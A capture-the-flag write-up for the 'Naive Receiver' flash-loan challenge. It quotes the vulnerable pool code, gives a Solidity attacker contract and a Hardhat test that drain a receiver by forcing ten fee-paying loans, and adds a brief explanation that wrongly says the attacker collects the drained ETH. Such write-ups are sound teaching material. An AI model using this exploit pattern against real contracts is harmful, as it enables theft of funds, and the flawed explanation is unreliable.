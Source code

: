 # Challange #2 - Naive Receiver

There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

<br />
This funcion allows users to borrow ETH from the pool. The pool will only send the ETH if the user’s contract has enough balance to pay the fee.

[NaiveReceiverLenderPool.sol:](/CTF%20-%20Damn%20Vulnerable/contracts/naive-receiver/NaiveReceiverLenderPool.sol)
```solidity
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );

        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
```

## [Attacker Contract](/CTF%20-%20Damn%20Vulnerable/contracts/attacker-contracts/AttackerNaiveReceiver.sol)

```solidity
import "../naive-receiver/NaiveReceiverLenderPool.sol";

contract AttackerNaiveReceiver {
    NaiveReceiverLenderPool pool;

    constructor(address payable _pool) {
        pool = NaiveReceiverLenderPool(_pool);
    }

    function exploit(address victim) public {
        for (int i = 0; i < 10; i++) {
            pool.flashLoan(victim, 1 ether);
        }
    }
}
```

## [Exploit](/CTF%20-%20Damn%20Vulnerable/test/naive-receiver/naive-receiver.challenge.js)

```javascript
it("Exploit", async function () {
	const AttackerFactory = await ethers.getContractFactory(
		"AttackerNaiveReceiver",
		attacker
	);
	const attackContract = await AttackerFactory.deploy(this.pool.address);

	await attackContract.exploit(this.receiver.address);
});
```

## Explanation

The attacker contract calls the `flashLoan` function 10 times, each time borrowing 1 ETH. The `receiveEther` function of the receiver contract is called 10 times, each time paying 1 ETH fee. The receiver contract has 10 ETH in balance, so it can pay the fee 10 times. The attacker contract receives 10 ETH in total.
